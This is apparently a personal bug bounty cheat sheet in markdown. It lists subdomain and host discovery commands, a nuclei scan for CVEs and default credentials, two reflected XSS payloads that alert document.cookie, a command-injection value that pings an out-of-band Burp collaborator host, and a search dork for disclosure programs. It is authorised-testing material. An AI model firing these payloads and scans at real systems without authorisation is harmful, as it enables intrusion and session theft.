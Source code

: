# Bug Bounty Personal Tips

``` assetfinder X.com | tee -a /tmp/X.txt```

``` cat /tmp/X.txt | httprobe -p http:81 -p https:8443 -p http:8000 -p http:8001 -p http:8181 -t 40000 | tee -a /tmp/X.txt ```

```  nuclei -l p.txt -t cves/ -t default-credentials/ -o priceline_results.txt -p http://192.168.100.2:1337```

```  : /"><script>alert(document.cookie)</script> ```

``` %27)+O+%22%3E%3Cscript%3Ealert(document.domain);%3C/script%3E ```

``` galletita ; ping -c 1 burp.oastify.com ```

``` subfinder -d X | /home/kali/go/bin/httpx -u -status-code -title -tech-detect -follow-redirects -timeout 5 ```

``` site:*.com.ar "bug bounty" OR "vulnerability disclosure" OR "security policy" ```
